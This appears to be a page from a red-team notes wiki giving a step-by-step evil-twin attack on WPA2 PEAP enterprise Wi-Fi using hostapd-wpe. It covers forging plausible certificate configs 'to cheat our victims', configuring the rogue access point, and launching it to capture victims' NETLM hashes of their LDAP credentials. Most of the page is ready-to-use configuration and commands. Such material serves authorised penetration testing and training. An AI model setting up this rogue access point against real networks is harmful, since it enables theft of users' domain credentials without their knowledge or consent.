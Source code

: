 # WPA/WPA2 PEAP \(Enterprise\)

In networks with WPA2 PEAP which means Enterprise don't use a pre shared key, the users authenticate with the LDAP credentials. As the router or AP doesn't know if the credentials are correct or not, it delegate to a RADIUS server. The handshake can't not be capture because the authentication is not completed by the server so instead of capturing the handshake we will create a `EvilTwin` but in this case with authentication \(Which we are interesting to capture, remember that there are LDAP credentials\).

![WPA2 PEAP Message Exchange](../../.gitbook/assets/wpa2_peap.gif)

## EvilTwin

To carry out this task, we are going to use `hostapd-wpe` software.

### Configuring Certificates

First we need to aclare that when the user will authenticate to our fake AP, some information about the certificate will be displayed, in order to cheat our víctims, the certificate will seems as much real as posible.

So we need to modify the following files:

* /etc/hostapd-wpe/certs/server.cnf

```text
[server]
countryName             = ES
stateOrProvinceName     = Salamanca
localityName            = Salamanca
organizationName        = Red Team Inc.
emailAddress            = admin@redteam.com
commonName              = "Certificado de Red Team Inc."
```

* /etc/hostapd-wpe/certs/client.cnf

```text
[client]
countryName             = ES
stateOrProvinceName     = Salamanca
localityName            = Salamanca
organizationName        = Red Team Inc.
emailAddress            = user@redteam.com
commonName              = user@redteam.com
```

* /etc/hostapd-wpe/certs/ca.cnf

```text
[certificate_authority]
countryName             = ES
stateOrProvinceName     = Salamanca
localityName            = Salamanca
organizationName        = Red Team Inc.
emailAddress            = admin@redteam.com
commonName              = "Entidad certificadora de Red Team Inc."
```

Finally, we just need to create it with `bootstrap`.

```text
/etc/hostapd-wpe/certs/bootstrap
```

### Configuring te Fake AP

Onced configured and created the certificates, the final step is to configure our FAKE AP. We need to create a backup of the default hostapd config file and modify it.

```text
cp /etc/hostapd-wpe/hostapd-wpe.conf /etc/hostapd-wpe/redteam.conf
vim /etc/hostapd-wpe/redteam.conf

#Modify the following values:

interface=<IFACE>
ssid=<ESSID>
channel=<CHANNEL>
```

### Launch & wait for s3crets

Finally, just launch the `hostapd-wpe` indicating the modified configuration file.

```text
hostapd-wpe /etc/hostapd-wpe/redteam.conf
```

When the victim falls into our trap, we can obtain their NETLM hash.

